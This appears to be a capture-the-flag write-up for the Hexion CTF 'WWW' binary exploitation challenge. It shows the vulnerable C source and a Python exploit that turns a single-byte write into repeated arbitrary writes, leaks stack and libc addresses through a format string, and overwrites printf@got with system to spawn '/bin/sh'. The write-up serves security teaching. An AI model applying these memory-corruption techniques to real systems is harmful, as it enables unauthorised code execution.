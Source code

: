 # WWW - Solution

Created by Yarin ([GitHub](https://github.com/CmdEngineer) / [Twitter](https://twitter.com/CmdEngineer_))\
Writeup written by moka

## Description
> challenge[pwn] = me\
`nc challenges1.hexionteam.com 3002`


## Solution
we get a binary that allows us to write any "*one*" character we want\
into the a buffer on the stack containing "Hello World!",\
using any long-long-int we choose as the index.

```c
int main(void) {  
	setvbuf(stdout, NULL, _IONBF, 0);
    int amount = 1;
    char buf[] = "Hello World!";
    while (amount--) {
        write(what(), where(), buf);
    }
    printf(buf);
}
```
it loops over the write `amount` times,\
and since `amount` is a stack variable, we can change it
and then write anywhere we want for an arbitrary amount of times!
<br>
<br>
now the first thing I'll do is create a function that'll do all that for me:

```python
def write(what, where, last=False):
	p.sendline('-7\n' + chr(len(what) + (0 if last else 1)))
	msg = b''
	for c in what:
		msg += str(where).encode() + b'\n' + bytes([c]) + b'\n'
		where += 1
	print(msg)
	p.send(msg)
```

the function changes the counter (which is buffer[-7]) to the size of the\
thing we want to write (+1 if it's not the last thing we're writing so we can redo the process).
<br>
<br>
now, to the exploit itself:
```python
# ret to ret (because stack alignment) and then to main, also leak printf@got and stack mapping
write(p64(elf.got['printf']), 0x2d + 16)  # printf got addr for leak
write(p64(main_func.address), 0x2d + 8) # RIP(2) -> ret back to main
write(p64(main_func.address + main_func.size - 1), 0x2d) # RIP(1) -> ret to ret
write(b"%10$llx %15$s\x00", 0, True) # leak stack and libc
```
we leak an address from the stack so we can calculate the offset from the buffer to printf@got\
and also the address of printf so we can find system within libc.
<br><br>
after calculating all those addresses we can overwrite printf@got with the address of system\
and then change the input buffer to "/bin/sh" which gets passed to printf (now system). 
```python
# write address of system into printf@got
write(p64(sys_addr)[:3], -offset)
write(b'/bin/sh\x00', 0, True)
p.interactive()
```
and - we have a shell.
<br><br><br>
Flag: `hexCTF{wh0_wh1ch_why_wh3n?}`
